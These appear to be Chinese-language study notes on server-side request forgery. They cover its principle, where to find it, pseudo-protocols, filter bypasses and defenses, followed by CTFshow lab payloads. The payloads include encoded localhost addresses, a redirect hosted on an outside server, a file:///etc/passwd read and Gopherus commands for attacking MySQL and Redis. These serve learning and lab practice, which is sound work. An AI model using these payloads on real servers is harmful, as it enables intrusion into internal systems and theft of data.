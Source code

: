  
---
1、SSRF==漏洞原理==

SSRF(Server-Side Request Forgery:服务器端请求伪造)

一种由攻击者构造形成由服务端发起请求的一个安全漏洞;

一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。

2、SSRF漏洞挖掘

**黑盒探针**：

-业务功能点

- 社交分享功能：获取超链接的标题等内容进行显示

- 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

- 在线翻译：给网址翻译对应网页的内容

- 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

- 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验

- 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

- 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

- 数据库内置功能：数据库的比如mongodb的copyDatabase函数

- 邮件系统：比如接收邮件服务器地址

- 编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

- 未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上关键字去寻找SSRF漏洞

-URL关键参数

```
share
wap
url
link
src
source
target
u
display
sourceURl
imageURL
domain
```


**白盒分析**：
见代码审计（文件读取，加载，数据操作类的函数）

3、SSRF伪协议利用

```

http:// Web常见访问，如http://127.0.0.1

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd

dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：

sftp:// SSH文件传输协议或安全文件传输协议

ldap:// 轻量级目录访问协议

tftp:// 简单文件传输协议

gopher:// 分布式文档传递服务，可使用gopherus生成payload
由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）
应用：漏洞利用 或 信息收集 通讯相关服务的时候 工具：Gopherus
```

4、SSRF绕过方式

| 1 |
限制为http://www.xxx.com 域名

```
采用http基本身份认证的方式绕过，即@

http://www.xxx.com@www.xxyy.com
```
| 2 |
限制请求IP不为内网地址
```
当不允许ip为内网地址时：

（1）采取短网址绕过

（2）采取域名解析
将自己的域名解析到127.0.0.1，让对方访问该域名

（3）采取进制转换

（4）采取3XX重定向
```

5、SSRF漏洞防御

```
1,过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。

2,统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

3,限制请求的端口为http常用的端口，比如，80,443,8080,8090。

4,黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

5,禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
```

CTFSHOW 
SSRF 白盒

CTF 绕过

1、无过滤直接获取

```
url=http://127.0.0.1/flag.php
```


2-3、IP地址进制绕过

```
十六进制

url=http://0x7F.0.0.1/flag.php

八进制

url=http://0177.0.0.1/flag.php

10 进制整数格式

url=http://2130706433/flag.php

```

16 进制整数格式，还是上面那个网站转换记得前缀0x

```
url=http://0x7F000001/flag.php

还有一种特殊的省略模式

127.0.0.1写成127.1

用CIDR绕过localhost

url=http://127.127.127.127/flag.php

还有很多方式

url=http://0/flag.php

url=http://0.0.0.0/flag.php
```

4、域名解析IP绕过

```
test.xiaodi8.com -> 127.0.0.1

url=http://test.xiaodi8.com/flag.php
```

5、长度限制IP绕过

```
url=http://127.1/flag.php
```

6、长度限制IP绕过

```
url=http://0/flag.php
```

7、利用重定向解析绕过

```
<?php

header("Location:http://127.0.0.1/flag.php");

url=http://47.94.236.117/xx.php

```

8、匹配且不影响写法解析

```
url=http://ctf.@127.0.0.1/flag.php?show
```

9-10、利用gopher协议打服务
```

https://github.com/tarunkant/Gopherus

d:Python2.7\python.exe gopherus.py --exploit mysql

d:Python2.7\python.exe gopherus.py --exploit redis

```